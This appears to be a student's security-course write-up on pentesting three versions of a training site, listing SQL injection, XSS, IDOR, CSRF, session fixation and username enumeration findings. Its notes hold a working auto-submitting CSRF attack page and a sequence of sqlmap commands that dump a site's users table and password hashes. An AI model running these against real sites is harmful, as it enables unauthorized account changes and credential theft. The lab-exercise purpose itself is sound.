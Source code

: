 # Project 8 - Pentesting Live Targets

Time spent: **25** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQLi - The id parameter is unsanitized and escapable on the salepeople page.

GIF Walkthrough: <img src='http://i.imgur.com/qaOIRtL.gif' />

Vulnerability #2: Session Hijacking/Fixation - A new session ID isn't regenerated when loging back in.

GIF Walkthrough: <img src='http://i.imgur.com/2tWbuTi.gif' />

## Green

Vulnerability #1: Username Enumeration - Error message switches between bold and regular depending if username exists or not.

GIF Walkthrough: <img src='http://i.imgur.com/UYoccrU.gif' />

Vulnerability #2: Stored XSS - The Name and Feedback fields on the feedback page are unsanitized. Guest can send malicious messages with embedded JS that will trigger once opened.

GIF Walkthrough: <img src='http://i.imgur.com/o1zsKGH.gif' />


## Red

Vulnerability #1: IDOR - Hidden salespeople ids are accessible

GIF Walkthrough: <img src='http://i.imgur.com/lnQoU8t.gif' />

Vulnerability #2: CSFR - CSFR tokens are not used in the edit pages

GIF Walkthrough: <img src='http://i.imgur.com/qoO6YKA.gif' />


## Notes

Describe any challenges encountered while doing the work

CSRF Test Form:

```
<!DOCTYPE html>
<html>
<body>

<h1> Don't Worry! This site is doing absolutely nothing suspicious! >:) </h1>

<!-- iframe holds the redirected page after submittion and is hidden from the unsuspecting victim -->
<iframe width="0" height="0" border="0" name="dummyframe" id="dummyframe"></iframe>

<form name="csrfForm" action="https://104.154.233.91/red/public/staff/users/edit.php?id=4" target="dummyframe" method="POST">
 <input type="hidden" name="first_name" value="CSRF" />
 <input type="hidden" name="last_name" value="Successful" />
</form>
<script>document.csrfForm.submit(); </script>

</body>
</html>
```
Bonus 1 Task:

The admin login credentials were left out accidently at first and it wasn't possible to login. Before the neccessary admin credentials were provided, the database was exposed using Sqlmap to obtained the admin credentials from the users table. The hashed passwords were obtained but the passwords were salted. With no information on what the salt values could be, decrypting the hashed passwords was almost impossible. Although this prodecure didn't result in successfully loging into the admin page, learning how to use Sqlmap in such a circumstance was a very insightful experience. The default Sqlmap version was also outdated and didn't work; had to install updated version from the official github link.

Sqlmap Installation Command:

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
``` 

*Note: Must navigate to the "sqlmap-dev" directory before executing the following command.

Sqlmap Command - Get databases from host 104.197.43.145: 

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --cookie='security=low; PHPSESSID=5d1dmfg3ak225m3kmam8qkkat2' --dbs
```

Sqlmap Command - Get tables from database "globitek_blue":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --tables -D globitek_blue

```

Sqlmap Command - Get columns from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --columns -D globitek_blue -T users
```

Sqlmap Command - Dump table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users
```

Sqlmap Command - Dump column "hashed_password" from table "users":

```
python2 sqlmap.py --url 'https://104.197.43.145/blue/public/salesperson.php?id=1' --dump -D globitek_blue -T users -C hashed_password
```

GIF Walkthrough: <img src='http://i.imgur.com/6NCLBA1.gif' />